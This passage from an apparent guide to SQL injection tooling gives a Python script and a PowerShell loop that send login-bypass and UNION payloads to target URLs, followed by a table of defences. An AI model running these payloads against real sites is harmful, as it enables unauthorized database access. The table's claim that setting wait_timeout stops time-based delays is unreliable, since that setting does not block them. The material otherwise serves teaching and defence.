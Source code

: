 
#### **6. Custom Scripts**  
**Primary Use**: Automate repetitive tasks or target niche scenarios.  
**Examples**:  
- **Python Script for Error-Based SQLi**:  
  ```python  
  import requests  
  import sys  

  target_url = "http://target.com/login.php"  
  payloads = ["' OR 1=1--", "' UNION SELECT 1,2--", "'/*"]  

  for payload in payloads:  
      data = {"username": payload, "password": "irrelevant"}  
      response = requests.post(target_url, data=data)  
      if "Welcome" in response.text:  
          print(f"[+] Vulnerable to SQLi with payload: {payload}")  
          sys.exit(0)  
  ```  
- **PowerShell for Mass Testing**:  
  ```powershell  
  $urls = Get-Content .\targets.txt  
  foreach ($url in $urls) {  
      Invoke-WebRequest -Uri "$url' OR 1=1--" -Method Get  
      # Analyze response codes/errors  
  }  
  ```  

---

#### **Defensive Counterparts**  
| Offensive Tool/Framework | Defensive Measure |  
|--------------------------|-------------------|  
| **SQLMap** | Use WAFs (e.g., ModSecurity, Cloudflare) to block signatures. |  
| **Burp Suite** | Implement strict input validation and parameterized queries. |  
| **Metasploit** | Restrict database user privileges and monitor for unusual commands. |  
| **sqlninja** | Disable time-based delays (e.g., `SET GLOBAL wait_timeout=10`). |  
| **Custom Scripts** | Deploy anomaly detection systems to flag unusual traffic patterns. |  

---

### **Conclusion**  
These tools democratize SQLi attacks, enabling even novice attackers to compromise systems. However, they also empower ethical hackers to identify and remediate vulnerabilities. Organizations must adopt layered defenses—such as parameterized queries, WAFs, and regular penetration testing—to mitigate risks.

